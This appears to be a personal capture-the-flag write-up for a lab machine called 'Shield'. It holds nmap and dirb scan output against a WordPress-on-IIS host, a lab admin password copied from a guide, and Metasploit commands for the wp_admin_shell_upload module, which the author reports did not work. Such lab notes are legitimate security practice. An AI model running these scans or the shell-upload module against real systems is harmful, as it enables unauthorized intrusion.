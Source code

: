 # Shield

## `nmap 10.10.10.29 -sV -sC`

    vagrant@vagrant-virtualbox ~> nmap 10.10.10.29 -sV -sC
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-02 12:30 CDT
    Nmap scan report for 10.10.10.29
    Host is up (0.031s latency).
    Not shown: 998 filtered ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: IIS Windows Server
    3306/tcp open  mysql   MySQL (unauthorized)
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 11.69 seconds

HTTP and MySQL.

## HTTP

Looks like IIS default page. Running `dirb`.

Apparently it runs wordpress.

Also, even though `admin` is a user on the site, `admin:qwerty789` does not work as a login.

Going to wait for `dirb` to finish. Or search metasploit database for `xmlrpc.php` payloads.

- <http://10.10.10.29/wordpress/>
- <http://10.10.10.29/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&reauth=1>

### dirb results

    vagrant@vagrant-virtualbox ~ [SIGINT]> dirb http://10.10.10.29

    -----------------
    DIRB v2.22    
    By The Dark Raver
    -----------------

    START_TIME: Sun May  2 12:41:43 2021
    URL_BASE: http://10.10.10.29/
    WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

    -----------------

    GENERATED WORDS: 4612                                                          

    ---- Scanning URL: http://10.10.10.29/ ----
    ==> DIRECTORY: http://10.10.10.29/wordpress/                                   
                                                                                
    ---- Entering directory: http://10.10.10.29/wordpress/ ----
    + http://10.10.10.29/wordpress/index.php (CODE:301|SIZE:0)                     
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/                          
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/                        
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-includes/                       
    + http://10.10.10.29/wordpress/xmlrpc.php (CODE:405|SIZE:42)                   
                                                                                
    ---- Entering directory: http://10.10.10.29/wordpress/wp-admin/ ----
    + http://10.10.10.29/wordpress/wp-admin/admin.php (CODE:302|SIZE:0)            
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/css/                      
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/images/                   
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/Images/                   
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/includes/                 
    + http://10.10.10.29/wordpress/wp-admin/index.php (CODE:302|SIZE:0)            
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/js/                       
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/maint/                    
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/network/                  
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-admin/user/                     
                                                                                
    ---- Entering directory: http://10.10.10.29/wordpress/wp-content/ ----
    + http://10.10.10.29/wordpress/wp-content/index.php (CODE:200|SIZE:0)          
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/plugins/                
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/themes/                 
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/Themes/                 
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/upgrade/                
    ==> DIRECTORY: http://10.10.10.29/wordpress/wp-content/uploads/                

## MySQL

Not sure if this is the vector to pursue. The logins I found from previous boxes aren't working.

## Cheaty McCheaterFace

In the interest of time, I'm going to just view the guide for this one since it's not really obvious to me, and I'm just starting to do these challenges.

I'm an idiot. I used the wrong password - I was supposed to use `admin:P@s5w0rd!`.

<http://10.10.10.29/wordpress/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&reauth=1>

Next step is to use a Metasploit module from Wordpress.

I went back to the guide for this one, since I wouldn't have found it on my own, and it's `wp_admin_shell_upload`.

    msfconsole
    use wp_admin_shell_upload
    set PASSWORD P@s5w0rd!
    set USERNAME admin
    set TARGETURI /wordpress
    set RHOSTS 10.10.10.29
    run

Not working. Will come back to this later.